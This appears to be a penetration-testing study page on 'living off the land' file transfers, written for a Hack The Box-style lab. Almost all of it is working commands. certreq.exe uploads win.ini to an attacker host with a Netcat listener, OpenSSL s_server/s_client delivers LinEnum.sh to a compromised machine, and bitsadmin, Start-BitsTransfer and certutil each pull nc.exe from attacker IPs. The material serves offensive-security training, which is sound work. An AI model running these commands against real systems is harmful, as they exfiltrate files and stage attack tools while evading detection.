

---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---

# Living off The Land





To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

<div data-full-width="true">

<figure><figcaption></figcaption></figure>

</div>

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

```
#Upload win.ini to our Pwnbox
C:\htb> certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini

#File Received in our Netcat Session
sudo nc -lvnp 80
```

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

<div data-full-width="true">

<figure><figcaption></figcaption></figure>

</div>

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

We need to create a certificate and start a server in our Pwnbox.


```
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```


Stand up the Server in our Pwnbox


```
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```


Download File from the Compromised Machine

```
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

### Other Common Living off the Land tools

File Download with Bitsadmin


```
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```


Download


```
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```


Download a File with Certutil

```
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```
